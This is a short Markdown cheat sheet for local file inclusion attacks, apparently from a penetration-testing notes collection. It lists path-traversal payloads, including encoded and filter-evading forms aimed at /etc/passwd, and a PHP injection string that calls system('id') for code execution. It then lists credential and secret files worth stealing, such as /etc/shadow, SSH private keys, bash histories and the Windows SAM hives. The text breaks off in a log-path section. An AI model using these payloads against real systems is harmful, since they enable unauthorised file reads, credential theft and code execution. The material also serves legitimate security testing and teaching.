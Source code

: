 -----

#### LFI

- Basic LFI
    - `../../../../../etc/passwd`
    - `%252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Epasswd`
    - `....//....//....//....//....//etc/passwd`
    - `....\/....\/....\/....\/etc\/passwd`
    - `' and die(show_source('/etc/passwd')) or '`
        - If this payload can be execute. Then we can do code execution.
        - `'and system('id') or '`
- Sensitive File
    - Linux
        - `.htaccess`
        - `config.php`
        - `/etc/passwd`
        - `/etc/shadow`
        - `/etc/issue`
        - `/etc/motd`
        - `/etc/mtab`
        - `/etc/group`
        - `/etc/inetd.conf`
        - `/etc/resolv.conf`
        - `~/.bash_history`
        - `/var/log/dmessage`
        - `$USER/.bash_history`
        - `$USER/.ssh/id_rsa`
        - `$USER/.ssh/id_rsa.pub`
        - `/etc/httpd/conf/httpd.conf`
        - `$USER/.ssh/authorized_keys`
        - `/root/.bash_history`
        - `/root/.ssh/id_rsa`
        - `/proc/sched_debug`
        - `/proc/mounts`
        - `/proc/version`
        - `/proc/self/environ`
    - Windows
        - `C:\windows\repair\SAM`
        - `%SYSTEMROOT%\repair\SAM`
        - `%SYSTEMROOT%\repair\system`
        - `%SYSTEMROOT%\System32\config\SAM`
        - `%SYSTEMROOT%\System32\config\SYSTEM`
        - `%SYSTEMROOT%\System32\config\RegBack\SAM`
        - `%SYSTEMROOT%\System32\config\RegBack\system`
        - `C:\WINDOWS\system32\eula.txt`
        - `C:\boot.ini`
        - `C:\WINNT\win.ini`
        - `C:\WINNT\php.ini`
        - `C:\WINDOWS\win.ini`
        - `C:\WINDOWS\php.ini`
        - `C:\Program Files\Apache Group\Apache\conf\httpd.conf `
        - `C:\Program Files\Apache Group\Apache2\conf\httpd.conf`
        - `C:\Program Files\xampp\apache\conf\httpd.conf`
        - `C:\php\php.ini`
        - `C:\php4\php.ini`
        - `C:\php5\php.ini`
        - `C:\apache\php\php.ini`
        - `C:\xampp\apache\bin\php.ini`
        - `C:\home\bin\stable\apache\php.ini`
        - `C:\home2\bin\stable\apache\php.ini`
- Default Log Path
    - Apache (Linux)
        - `/var/log/access_log`